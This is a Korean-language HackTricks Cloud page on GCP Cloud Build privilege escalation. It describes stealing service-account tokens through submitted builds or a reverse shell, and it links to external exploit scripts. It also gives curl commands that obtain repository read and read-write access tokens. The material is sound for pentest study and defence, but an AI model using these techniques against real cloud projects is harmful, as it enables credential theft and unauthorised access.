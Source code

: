# GCP - Cloudbuild Privesc

{% hint style="success" %}
AWS Hacking 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.**
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## cloudbuild

Cloud Build에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

이 권한을 사용하면 **cloud build를 제출**할 수 있습니다. cloudbuild 머신의 파일 시스템에는 **기본적으로 cloudbuild 서비스 계정의 토큰**이 포함되어 있습니다: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. 그러나 cloudbuild 구성에서 **프로젝트 내의 모든 서비스 계정을 지정**할 수 있습니다.\
따라서, 머신이 토큰을 서버로 유출하게 하거나 **역셸을 통해 직접 토큰을 얻을 수 있습니다** (토큰이 포함된 파일은 변경될 수 있습니다).

원본 익스플로잇 스크립트는 [**GitHub에서 여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)에서 찾을 수 있습니다 (하지만 토큰을 가져오는 위치는 저에게는 작동하지 않았습니다). 따라서, [**취약 환경의 생성, 익스플로잇 및 정리를 자동화하는 스크립트는 여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)에서 확인할 수 있으며, cloudbuild 머신 내부에서 역셸을 얻고 [**토큰을 훔치는 파이썬 스크립트는 여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py)에서 확인할 수 있습니다 (코드에서 다른 서비스 계정을 지정하는 방법을 찾을 수 있습니다)**.**

더 자세한 설명은 [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)를 방문하세요.

### `cloudbuild.builds.update`

**잠재적으로** 이 권한을 사용하면 **cloud build를 업데이트하고 서비스 계정 토큰을 훔칠 수 있습니다** (하지만 이 글을 쓰는 시점에서는 해당 API를 호출하는 방법을 찾을 수 없었습니다).

TODO

### `cloudbuild.repositories.accessReadToken`

이 권한을 사용하면 사용자는 **저장소에 접근하기 위한 읽기 액세스 토큰**을 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

이 권한을 사용하면 사용자는 저장소에 접근하는 **읽기 및 쓰기 액세스 토큰**을 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

이 권한을 사용하면 **연결이 액세스할 수 있는 저장소를 가져올 수 있습니다:**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
